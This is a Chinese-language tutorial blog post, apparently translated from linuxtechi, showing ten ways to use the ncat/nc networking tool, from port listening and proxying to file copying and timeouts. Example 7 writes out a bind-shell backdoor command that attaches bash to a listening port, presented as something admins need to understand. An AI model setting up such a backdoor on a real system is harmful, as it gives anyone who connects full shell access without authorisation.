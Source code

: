 ```yaml
---
layout: post
title:	"10 个例子教你学会 ncat (nc) 命令"
date:	2017-12-31 08:01:00 +0800 
categories:	技术 linuxcn 
tags:	[linuxcn,nc,ncat]
---
```



![](/Asserts/Images/album/201712/30/001853qeiznzihgh3zghqz.jpg)


`ncat` 或者说 `nc` 是一款功能类似 `cat` 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。 它被设计成可以被脚本或其他程序调用的可靠的后端工具。同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。


`ncat`/`nc` 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。 这是每个系统管理员都应该知道并且掌握它。


在大多数 Debian 发行版中，`nc` 是默认可用的，它会在安装系统的过程中自动被安装。 但是在 CentOS 7 / RHEL 7 的最小化安装中，`nc` 并不会默认被安装。 你需要用下列命令手工安装。



```
[root@linuxtechi ~]# yum install nmap-ncat -y

```

系统管理员可以用它来审计系统安全，用它来找出开放的端口然后保护这些端口。 管理员还能用它作为客户端来审计 Web 服务器、telnet 服务器、邮件服务器等， 通过 `nc` 我们可以控制发送的每个字符，也可以查看对方的回应。


我们还可以用它捕获客户端发送的数据以此来了解这些客户端是做什么的。


在本文中，我们会通过 10 个例子来学习如何使用 `nc` 命令。


### 例子： 1) 监听入站连接


通过 `-l` 选项，`ncat` 可以进入监听模式，使我们可以在指定端口监听入站连接。 完整的命令是这样的：



```
$ ncat -l port_number

```

比如，



```
$ ncat -l 8080

```

服务器就会开始在 8080 端口监听入站连接。


### 例子： 2) 连接远程系统


使用下面命令可以用 `nc` 来连接远程系统，



```
$ ncat IP_address port_number

```

让我们来看个例子，



```
$ ncat 192.168.1.100 80

```

这会创建一个连接，连接到 IP 为 192.168.1.100 的服务器上的 80 端口，然后我们就可以向服务器发送指令了。 比如我们可以输入下面内容来获取完整的网页内容



```
GET / HTTP/1.1

```

或者获取页面名称，



```
GET / HTTP/1.1

```

或者我们可以通过以下方式获得操作系统指纹标识，



```
HEAD / HTTP/1.1

```

这会告诉我们使用的是什么软件来运行这个 web 服务器的。


### 例子： 3) 连接 UDP 端口


默认情况下，`nc` 创建连接时只会连接 TCP 端口。 不过我们可以使用 `-u` 选项来连接到 UDP 端口，



```
$ ncat -l -u 1234

```

现在我们的系统会开始监听 UDP 的 1234 端口，我们可以使用下面的 `netstat` 命令来验证这一点，



```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc

```

假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令，



```
$ ncat -v -u {host-ip} {udp-port}

```

比如：



```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53。

```

### 例子： 4) 将 `nc` 作为聊天工具


`nc` 也可以作为聊天工具来用，我们可以配置服务器监听某个端口，然后从远程主机上连接到服务器的这个端口，就可以开始发送消息了。 在服务器这端运行：



```
$ ncat -l 8080

```

在远程客户端主机上运行：



```
$ ncat 192.168.1.100 8080

```

之后开始发送消息，这些消息会在服务器终端上显示出来。


### 例子： 5) 将 `nc` 作为代理


`nc` 也可以用来做代理。比如下面这个例子，



```
$ ncat -l 8080 | ncat 192.168.1.200 80

```

所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。 要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:



```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way

```

现在你可以通过 `nc` 代理来收发数据了。


### 例子： 6) 使用 `nc` 拷贝文件


`nc` 还能用来在系统间拷贝文件，虽然这么做并不推荐，因为绝大多数系统默认都安装了 `ssh`/`scp`。 不过如果你恰好遇见个没有 `ssh`/`scp` 的系统的话， 你可以用 `nc` 来作最后的努力。


在要接受数据的机器上启动 `nc` 并让它进入监听模式：



```
$ ncat -l  8080 > file.txt

```

现在去要被拷贝数据的机器上运行下面命令：



```
$ ncat 192.168.1.100 8080 --send-only < data.txt

```

这里，`data.txt` 是要发送的文件。 `-–send-only` 选项会在文件拷贝完后立即关闭连接。 如果不加该选项， 我们需要手工按下 `ctrl+c` 来关闭连接。


我们也可以用这种方法拷贝整个磁盘分区，不过请一定要小心。


### 例子： 7) 通过 `nc` 创建后门


`nc` 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：



```
$ ncat -l 10000 -e /bin/bash

```

`-e` 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：



```
$ ncat 192.168.1.100 10000

```

### 例子： 8) 通过 `nc` 进行端口转发


我们通过选项 `-c` 来用 `nc` 进行端口转发，实现端口转发的语法为：



```
$ ncat -u -l  80 -c  'ncat -u -l 8080'

```

这样，所有连接到 80 端口的连接都会转发到 8080 端口。


### 例子： 9) 设置连接超时


`nc` 的监听模式会一直运行，直到手工终止。 不过我们可以通过选项 `-w` 设置超时时间:



```
$ ncat -w 10 192.168.1.100 8080

```

这回导致连接 10 秒后终止，不过这个选项只能用于客户端而不是服务端。


### 例子： 10) 使用 `-k` 选项强制 `nc` 待命


当客户端从服务端断开连接后，过一段时间服务端也会停止监听。 但通过选项 `-k` 我们可以强制服务器保持连接并继续监听端口。 命令如下：



```
$ ncat -l -k 8080

```

现在即使来自客户端的连接断了也依然会处于待命状态。


自此我们的教程就完了，如有疑问，请在下方留言。




---


via: <https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/>


作者：[Pradeep Kumar](https://www.linuxtechi.com/author/pradeep/) 译者：[lujun9972](https://github.com/lujun9972) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出
